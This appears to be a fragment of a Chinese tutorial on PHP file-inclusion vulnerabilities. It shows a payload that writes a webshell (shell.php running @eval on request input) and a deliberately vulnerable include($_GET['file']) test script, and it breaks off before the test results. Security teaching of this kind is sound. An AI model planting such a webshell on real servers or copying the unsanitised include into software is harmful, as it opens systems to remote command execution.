 ![](/文件包含.assets/input_1.png)

<br/>

- 构造webshell
利用可以进行命令执行的条件，在权限的情况下可以写入webshell
payload: `<?PHP fputs(fopen('shell.php','w'),'<?php @eval($_REQUEST[cmd])?>');?>`
测试代码：
```php
<?php
include($_GET['file']);
?>
```
测试结果：
